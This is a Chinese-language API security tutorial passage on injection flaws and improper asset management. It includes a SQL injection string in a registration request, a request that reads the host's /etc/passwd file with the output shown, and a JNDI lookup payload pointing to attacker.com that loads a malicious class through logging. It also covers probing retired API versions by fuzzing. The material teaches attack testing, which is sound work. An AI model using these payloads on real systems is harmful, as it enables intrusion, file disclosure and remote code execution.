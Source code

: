 - 注入

  - 当请求传递到 API 的支持基础结构并且 API 提供程序不筛选输入以删除不需要的字符（此过程称为输入清理）时，存在注入缺陷。详细的错误消息、HTTP 响应代码和意外的 API 行为都可能是您可能发现了注入缺陷的线索。
  - API 可能会将该有效负载直接传递到后端 SQL 数据库，其中 OR 1=0 语句将失败（因为 1 不等于 0），从而导致一些 SQL 错误：

  ```http
  POST /api/v1/register HTTP 1.1
  Host: example.com
  --snip--
  {
  "Fname": "hAPI",
  "Lname": "Hacker",
  "Address": "' OR 1=0--",
  }
  ```

  - 注入漏洞通常辅以其他漏洞，例如输入清理不良。在以下示例中，您可以看到一种代码注入攻击，该攻击使用 API GET 请求来利用弱查询参数。在这种情况下，弱查询参数将请求的查询部分中的任何数据直接传递到底层系统，而不先对其进行清理：以下响应正文显示 API 端点已纵为显示主机的 /etc/passwd 文件，从而显示系统上的用户：

    GET http://10.10.78.181:5000/api/v1/resources/books？show=/etc/passwd

  ```
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  ```

  

**场景案例：**

API后端服务器使用了一些流行的第三方编写的访问日志来记录用户请求和响应信息。这些记录工具支持占位符扩展和JNDI查找，每个请求都会产生一个新的日志条目，记录下请求的详细信息，例如请求时间、请求类型、请求者IP地址等。这些日志数据可以帮助开发人员进行调试和性能优化，并且也可以用于安全审计和故障排除。

```cpp
<method> <api_version>/<path> - <status_code>
```

攻击者发出以下API请求，该请求将写入访问权限日志文件：

```cpp
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

由于日志记录实用程序的默认配置不够安全，并且网络出站策略太宽松，攻击者可以将恶意代码写入API请求中，然后通过访问日志记录工具来执行恶意代码。



## 库存管理不当

- 未下线的老版本/临时调试api
  - 存量资产管理不当是指企业没有对其现有的IT资源（包括硬件、软件、网络设备等）进行有效管理和监控。这会导致一些旧的或者不再使用的IT资源没有被及时清理，而这些资源可能存在安全漏洞，被黑客利用入侵企业系统。此外，未经管理的存量资产也可能使企业面临更高的运营成本和维护难度。
  - 当组织公开 API 时，会发生不正确的资产管理 已停用或仍在开发中。仍在开发的 API 通常不如生产 API 对应项安全。
  - 资产管理不当会导致其他漏洞，例如数据过度暴露、信息泄露、批量分配、速率限制不当和 API 注入等。
  - 您可以通过密切关注仓库中过时的 API 文档、更改日志和版本历史记录来发现不当的资产管理。
  - 组织通常在其终结点名称中包含版本控制信息，以区分较旧版本和较新版本，例如 等。仍在开发中的 API 通常使用诸如 .如果知道 API 现在正在使用 apiv3.org/admin 但 API 文档的一部分提到了 apiv1.org/admin，则可以尝试测试不同的端点以查看 apiv1 或 apiv2 是否仍处于活动状态。此外，组织的更新日志 可能会披露 v1 更新或停用的原因。如果您有权访问 v1，则可以测试这些弱点/v1/, /v2/, /v3//alpha/, /beta/, /test/, /uat/, and /demo/
  - 在使用文档之外，您还可以通过使用猜测、模糊测试或暴力请求来发现不正确的资产管理漏洞。观察 API 文档或路径命名方案中的模式，然后根据您的假设发出请求。
    